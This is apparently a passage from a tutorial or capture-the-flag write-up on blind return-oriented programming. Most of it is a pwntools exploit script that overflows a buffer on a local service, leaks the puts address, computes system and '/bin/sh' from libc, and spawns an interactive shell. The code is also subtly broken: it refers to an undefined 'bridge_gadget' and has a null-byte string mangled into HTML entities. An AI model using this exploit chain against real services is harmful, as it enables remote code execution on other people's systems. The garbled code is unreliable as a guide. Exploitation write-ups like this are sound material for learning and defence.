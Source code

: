 

This shows that the address of puts@got is 0x601018.


#### Program Utilization


```python

##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)

puts_got = 0x601018



sh = remote('127.0.0.1', 9999)

sh.recvuntil('password?\n')

payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(

    stop_gadget)

sh.sendline(payload)

data = sh.recvuntil('\nWelCome', drop=True)

puts_addr = u64 (data.ljust (8, &#39;x00&#39;))
libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(

    system_addr) + p64(stop_gadget)

sh.sendline(payload)

sh.interactive()

```
